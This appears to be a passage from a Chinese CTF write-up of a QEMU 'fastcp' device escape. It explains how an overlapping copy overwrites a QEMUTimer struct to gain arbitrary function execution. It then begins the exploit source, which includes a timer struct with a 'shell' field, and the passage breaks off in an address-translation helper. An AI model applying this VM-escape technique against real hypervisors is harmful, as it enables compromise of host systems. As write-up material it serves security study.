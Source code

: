 - src和dst都是gva\_to\_gpa(userbuf + 0x1000) - 0x1000 ，先把src复制到buf,因为len=0x1000 + sizeof(timer)所以buf后面的timer结构体就被修改为我们期望的样子了。后面buf复制到dst其实都不重要了，然后只要让cmd=1，也就是调用fastcp\_cp\_timer函数就可以任意函数执行了
- 这里又来了一个知识点，因此虽然是memcpy(userbuf + 0x1000, &amp;timer, sizeof(timer)); 但是后面却是gva\_to\_gpa(userbuf + 0x1000) - 0x1000，这是因为多于一页物理地址不一定连续了

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-2371c256044de4ad0095a8874a0e700b1ce3ede0.png)

- exp

```C
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/io.h>
#include <unistd.h>

#define PAGE_SHIFT 12
#define PAGE_SIZE (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN ((1ull << 55) - 1)
char* userbuf;
uint64_t phy_userbuf, phy_userbuf2;
unsigned char* mmio_mem;

struct FastCP_CP_INFO
{
    uint64_t CP_src;
    uint64_t CP_cnt;
    uint64_t CP_dst;
};

struct QEMUTimer
{
    int64_t expire_time;
    int64_t timer_list;
    int64_t cb;
    void* opaque;
    int64_t next;
    int attributes;
    int scale;
    char shell[0x50];
};

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

uint64_t page_offset(uint64_t addr)
{
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void* addr)
{
    uint64_t pme, gfn;
    size_t offset;

```